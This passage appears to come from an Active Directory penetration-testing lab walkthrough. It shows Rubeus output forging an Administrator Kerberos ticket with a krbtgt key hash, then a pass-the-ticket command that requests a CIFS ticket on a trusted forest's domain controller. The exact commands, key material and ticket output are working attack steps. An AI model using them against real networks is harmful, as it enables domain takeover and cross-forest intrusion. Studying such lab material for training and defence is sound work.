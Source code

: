 ```
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 8B47DEF37766600C86A9CE817A3FADF4
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt📌
[*] Target         : DOLLARCORP.MONEYCORP.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 6:39:56 AM
[*] StartTime      : 2/17/2025 6:39:56 AM
[*] EndTime        : 2/17/2025 4:39:56 PM
[*] RenewTill      : 2/24/2025 6:39:56 AM

[*] base64(ticket.kirbi):

doIGFjCCBhKgAwIBBaEDAgEWooIE4jCCBN5hggTaMIIE1qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBH4wggR6oAMCARehAwIBA6KCBGwEggRoE9cWBih+LxGKDixqdOmGHhJwLIgfqN7ZSjyj6LJBgqICEUeFON...
```

Copy the base64 encoded ticket from above and use it in the following command.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.LOCAL /dc:eurocorp-dc.eurocorp.LOCAL /ptt /ticket:doIGFjCCBhKgAwIBBaEDAgEWooIE4jCCBN5hggTaMIIE1qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBH4wggR6oAMCARehAwIBA6KCBGwEggRoE9cWBih+LxGKDixqdOmGHhJwLIgfqN7ZSjyj6LJBgqICEUeFON...`:
```
[SNIP]

[*] Action: Ask TGS📌

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/eurocorp-dc.eurocorp.LOCAL'
[*] Using domain controller: eurocorp-dc.eurocorp.LOCAL (172.16.15.1)
[+] TGS request successful!
[+] Ticket successfully imported!🎟️
[*] base64(ticket.kirbi):

  ServiceName              :  cifs📌/eurocorp-dc.eurocorp.LOCAL
  ServiceRealm             :  EUROCORP.LOCAL🏛️
  UserName                 :  Administrator🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime                :  2/17/2025 6:41:55 AM
  EndTime                  :  2/17/2025 4:39:56 PM
  RenewTill                :  2/24/2025 6:39:56 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Nk2XyKZnkKBktXbXGZa0JWGTRWe39S4JumkWhRlUqrI=
```
